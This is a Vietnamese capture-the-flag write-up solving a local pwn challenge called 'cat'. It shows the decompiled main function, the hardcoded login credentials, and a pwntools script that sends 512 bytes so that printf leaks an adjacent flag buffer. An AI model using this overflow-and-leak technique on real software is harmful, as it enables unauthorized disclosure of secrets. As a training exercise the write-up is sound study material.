  * Writeup Cat from Pwn *
 
 **#1 Tìm lỗi**
     Em sẽ dùng lệnh 'file' để tìm thông tin của file và có kết quả như sau
     ![image](https://user-images.githubusercontent.com/116651808/212807726-3f02e914-3565-49b9-8246-2cc62cf8145a.png)
     Em sẽ được file được viết là file ELF 64bit nên em mở file cat bằng ida 64 sẽ thấy soure của hàm main như sau:
   int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h]
  int v5; // [rsp+Ch] [rbp-4h]

  init(argc, argv, envp);
  read_flag();
  printf("Username: ");
  v4 = read(0, username, 0x20uLL);
  if ( username[v4 - 1] == 10 )
    username[v4 - 1] = 0;
  printf("Password: ");
  v5 = read(0, password, 0x20uLL);
  if ( password[v5 - 1] == 10 )
    password[v5 - 1] = 0;
  if ( !strcmp(username, "KCSC_4dm1n1str4t0r") && !strcmp(password, passwd) )
  {
    puts("Logged in!");
    printf("Your secret: ");
    read(0, secret, 0x200uLL);
    printf("Saving secret \"%s\"...\n", secret);
    puts("Done! Exiting...");
  }
  else
  {
    puts("Unauthorized access is forbidden!");
  }
  return 0;
}
    Đọc hàm main em thấy chương trình sẽ tiến hành thực hiện hàm read_flag()(Kiểm tra hàm này thì thấy đã lưu giá trị flag vào biến flag), sau đó tiếp tục cho người dùng
    nhập username và password rồi đem đi so sánh với giá trị đã có sẵn. Nếu đúng thì tiếp tục cho phép nhập vào biến secret và in biến secret rồi kết thúc chương trình.
    Đến đây em nghĩ đến nhập buffer từ biến secret đến biến flag. Em dùng lệnh 'checksec' trong gdb để kiểm tra xem có buffer được không.
    ![image](https://user-images.githubusercontent.com/116651808/212809077-1438d894-e51b-4018-b5fe-4cf951058cc3.png)
    Em thấy được Canary đang disabled nên sẽ tận dụng lỗi buffer over flow được
   
   
   
 **2. Ý tưởng**
    Sau khi đọc source thì em sẽ nhập KCSC_4dm1n1str4t0r cho username và wh3r3_1s_th3_fl4g cho password.
    Dùng gdb thì thấy được khoảng cách từ biến flag đến secret là 512 nên sẽ nhập 512 ký tự cho biến secret
    
    
  **3. Viết script**
  
    from pwn import *
    r = process("./cat")

    r.recvuntil("Username: ")
    r.sendline("KCSC_4dm1n1str4t0r")
    r.recvuntil("Password: ")
    r.sendline("wh3r3_1s_th3_fl4g")
    r.sendline("a"*512)
    r.interactive()
    
 **4. Lấy flag**
   ![image](https://user-images.githubusercontent.com/116651808/212811067-c7f63163-7b62-4d60-a8fb-a65951c3a539.png)
    flag: KCSC{Th1s_1s_f4k3_fl4g} (Chạy trên local nên đây là flag em tự tạo).
